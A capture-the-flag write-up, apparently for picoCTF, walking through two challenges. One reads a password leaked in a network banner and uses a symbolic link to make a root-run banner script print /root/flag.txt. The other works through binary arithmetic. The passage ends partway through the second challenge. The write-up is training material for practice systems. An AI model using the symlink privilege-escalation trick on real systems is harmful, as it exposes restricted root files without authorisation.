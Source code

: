 ### dont-you-love-banners

First we `nc` to the `leaking` instance and get the password.

```console
$ nc tethys.picoctf.net 59298
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Now that we have the password, we connect to the "real" instance. There are 2 other questions that can be answered simply by googling.

```console
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
defcon
the first hacker ever was known for phreaking(making free phone calls), who was it?
john
```

After that we get shell.

Now that wee have shell, we need to somehow read `/root/flag.txt`.  Thanks to the hint, a symbolic link can help us do the job. Although we cannot execute banner while we are `player`, if we disconnect and `nc` again, our symbolic link would still be there and executed it.

```bash
$ rm -f /home/player/banner && ln -s /root/flag.txt /home/player/banner
```

Disconnect and `nc` again to get the flag.

### binhexa

The challenge gives us 2 random `binary` numbers each run. With these numbers, we need to perform operations that are random every time. We can use this [site](https://www.rapidtables.com/calc/math/binary-calculator.html) to make the calculations easy.

```console
Welcome to the Binary Challenge!"
Your task is to perform the unique operations in the given order and find the final result in hexadecimal that yields the flag.

Binary Number 1: 11010010
Binary Number 2: 00101001


Question 1/6:
Operation 1: '>>'
Perform a right shift of Binary Number 2 by 1 bits .
Enter the binary result: 10100.1

Incorrect input. Provide the right input
Enter the binary result: 10100  
Correct!

Question 2/6:
Operation 2: '+'
Perform the operation on Binary Number 1&2.
Enter the binary result: 11111011
Correct!

Question 3/6:
```